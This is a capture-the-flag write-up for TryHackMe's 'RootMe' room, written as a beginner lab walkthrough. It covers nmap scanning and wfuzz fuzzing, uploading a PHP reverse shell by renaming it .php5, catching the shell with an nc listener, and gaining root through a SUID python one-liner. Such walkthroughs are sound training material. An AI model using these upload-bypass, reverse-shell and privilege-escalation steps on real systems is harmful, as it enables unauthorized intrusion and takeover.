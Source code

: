 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/root-me/","tags":["CTF","write-up"]}
---
```



---
> [!INFO] Info about RootMe
>  A ctf for beginners, can you root me?

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Host discovery
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

> [!check]- Scan the machine, how many ports are open?
> 2

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux, Ubuntu
## Port 22 - SSH
22/tcp open  ssh     **OpenSSH 7.6p1** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

> [!check]- What service is running on port 22?
> SSH
## Port 80 - Apache
80/tcp open  http    Apache httpd **2.4.29** ((Ubuntu))
http-title: HackIT - Home
http-cookie-flags:
   /:
     PHPSESSID:
      httponly flag not set
http-server-header: Apache/2.4.29 (Ubuntu)

> [!check]- What version of Apache is running?
> 2.4.29

Set the ip on `/etc/hosts`
```shell
sudo echo "10.10.171.218 rootme.thm" | sudo tee -a /etc/hosts
```
### Fuzzing
```shell
wfuzz -c -t 50 --hc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://rootme.thm/FUZZ
```
![Pasted image 20241127224013.png](/img/user/attachments/Pasted%20image%2020241127224013.png)
> [!check]- What is the hidden directory?
> Panel

---
# Exploitation
## Apache - File upload
Go to the panel directory
![Pasted image 20241127224504.png|500](/img/user/attachments/Pasted%20image%2020241127224504.png)
Try to upload a `PHP` reverse shell from kali linux resources `/usr/share/webshells/php/php-reverse-shell.php`

Now allowed
![Pasted image 20241127224553.png|300](/img/user/attachments/Pasted%20image%2020241127224553.png)
Try to bypass the filter on Server-Side
Change the name to `/usr/share/webshells/php/php-reverse-shell.php5` and upload
![Pasted image 20241127231024.png|300](/img/user/attachments/Pasted%20image%2020241127231024.png)
Works
Set the listener
```shell
rlwrap nc -lnvp 4747
```
On the browser go to the file location
`http://rootme.thm/uploads/php-reverse-shell.php5`
The page shouldn't be loaded
![Pasted image 20241127231246.png](/img/user/attachments/Pasted%20image%2020241127231246.png)

And the listener should have received the reverse shell
![Pasted image 20241127231458.png](/img/user/attachments/Pasted%20image%2020241127231458.png)
Try [[Notes/Upgrading shell\|Upgrading shell]] (Optional)

> [!check] User flag
> ![Pasted image 20241127231847.png](/img/user/attachments/Pasted%20image%2020241127231847.png)

---
# Privilege escalation
Search SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

> [!check] Search for files with SUID permission, which file is weird?
> ![Pasted image 20241127232252.png](/img/user/attachments/Pasted%20image%2020241127232252.png)


> [!check] Find a form to escalate your privileges.
> https://gtfobins.github.io/

Abusing the python SUID
```shell
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Pasted image 20241127232617.png|800](/img/user/attachments/Pasted%20image%2020241127232617.png)

> [!check] Root flag
> ![Pasted image 20241127232707.png](/img/user/attachments/Pasted%20image%2020241127232707.png)

---